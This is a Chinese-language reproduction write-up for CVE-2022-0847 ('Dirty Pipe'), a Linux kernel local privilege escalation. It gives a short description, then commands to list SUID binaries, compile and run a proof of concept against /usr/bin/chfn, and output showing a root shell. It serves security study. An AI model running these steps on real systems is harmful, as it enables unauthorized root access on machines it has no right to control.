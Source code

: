 # 漏洞描述

CVE-2022-0847-DirtyPipe-Exploit CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”

# 漏洞影响

Linux内核 5.8 及之后版本

# 漏洞复现

查找具有suid权限的可执行文件

```shell
find / -user root -perm /4000 2>/dev/null

find / -user root -perm /4000 2>/dev/null
/usr/libexec/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/virtualbox/VBoxNetDHCP
/usr/lib/virtualbox/VBoxSDL
/usr/lib/virtualbox/VBoxNetAdpCtl
/usr/lib/virtualbox/VBoxNetNAT
/usr/lib/virtualbox/VirtualBoxVM
/usr/lib/virtualbox/VBoxHeadless
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
^[[B^[[B^[[B^[[B^[[B^[[B/usr/bin/chsh
/usr/bin/kismet_cap_rz_killerbee
/usr/bin/kismet_cap_nrf_52840
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/ntfs-3g
/usr/bin/kismet_cap_ti_cc_2540
/usr/bin/fusermount3
/usr/bin/kismet_cap_ubertooth_one
/usr/bin/vmware-user-suid-wrapper
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/kismet_cap_ti_cc_2531
/usr/bin/chfn
/usr/bin/kismet_cap_nxp_kw41z
/usr/bin/passwd
/usr/bin/su
/usr/bin/kismet_cap_linux_wifi
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/kismet_cap_nrf_51822
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/umount
/usr/sbin/mount.cifs
/usr/sbin/pppd
/usr/sbin/mount.nfs

```

编译POC文件后，指定修改的Suid可执行文件，获取root权限 

```
gcc cve-2022-0847.c -o cve-2022-0847

./cve-2022-0847 /usr/bin/chfn

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),142(kaboxer),1000(kali)

```

